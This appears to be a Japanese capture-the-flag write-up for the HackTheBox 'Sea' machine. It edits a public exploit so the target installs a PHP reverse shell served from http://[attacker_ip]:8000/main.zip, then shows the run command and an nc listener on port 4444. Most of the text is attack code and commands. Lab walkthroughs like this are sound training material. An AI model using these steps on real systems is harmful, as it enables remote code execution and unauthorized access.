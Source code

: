 ```{r, attr.source='.numberLines'}
    os.system("python3 -m http.server\n")
  except: print(data,"\n","//write this to a file")
  ```

20行目にphpリバースシェルが格納されたリポジトリが設定されているが、ターゲットPCはネットワークに繋がっていないため、このリポジトリにアクセスできない。exploit.pyと同じディレクトリに、PHPリバースシェルを予めダウンロードしておく。

```
PHPリバースシェルのダウンロード:
wget https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip
```
コードの修正
```
修正前：
var urlRev = urlWithoutLogBase+"/?installModule=https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip&directoryName=violet&type=themes&token=" + token;
```
```
修正後：
var urlRev = urlWithoutLogBase+"/?installModule=http://[attacker_ip]:8000/main.zip&directoryName=violet&type=themes&token=" + token;

```

<br>

18行目の `urlWithoutLogBase` もおかしい。
`urlWithoutLogBase` は、20行目で `urlRev` に使われて、最終的に23行目の `xhr3.open("GET", urlRev);` でリクエストが実行される際に使われる。

このままのコードをでは、urlRevにはパスのみが記載され、自動的にローカルドメインにアクセスしています。今回アクセスしてほしいのは、`http://sea.htb` なので書き換える。

```
修正前：
var urlWithoutLogBase = new URL(urlWithoutLog).pathname; 
```
```
修正後：
var urlWithoutLogBase = "http://sea.htb"; 
```

<br>

exploit.pyを実行
```
INPUT:
python exploit.py http://sea.htb/loginURL [attacker ip] 4444 
```
※ ターゲットのURLには、必ずドメイン（sea.htb）を用いること。（IPアドレスを指定してはならない）

<br>

exploit.pyの出力内容に従い、ncコマンドを実行する。

```
INPUT:
rlwrap nc -nlvp 4444
```
